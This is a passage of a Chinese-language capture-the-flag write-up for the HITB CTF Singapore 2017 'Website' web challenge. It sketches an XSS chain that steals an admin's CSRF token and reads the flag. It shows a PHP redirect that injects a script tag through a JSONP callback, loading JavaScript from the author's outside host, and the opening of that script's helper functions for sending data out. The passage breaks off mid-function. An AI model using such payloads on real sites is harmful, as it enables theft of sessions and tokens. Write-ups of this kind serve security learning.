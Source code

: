 ## 0x0E Website

[HITB CTF Singapore 2017] Web 434 – Website

![](/assets/images/move/20191002155816.png)

存在多处 XSS，waf 不严格。思路：提交链接 -> admin check -> admin(&csrftoken) get flag. 

```bash
恶意链接 -> 302 jsonp xss -> 提取csrftoken -> xhr 控制读取 flag -> 接收 flag
```

提交链接 `http://endl.me/xss`:

- index.php

```php
<?php 
header("Location:http://111.198.29.45:59794/action.php?callback=<script src=\"//endl.me/xss/website.js\"></script>");
?>
```

- website.js

```js
html = document.head.innerHTML;
function request(url)
{
    img = document.createElement("img");
    img.width = "1px";
    img.height = "1px";
    img.src = url;
    document.body.appendChild(img);
}
function httpGet(theUrl)
{
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "GET", theUrl, false ); // false for synchronous request
    xmlHttp.send( null );
    return xmlHttp.responseText;
}
function myfunc()
{
```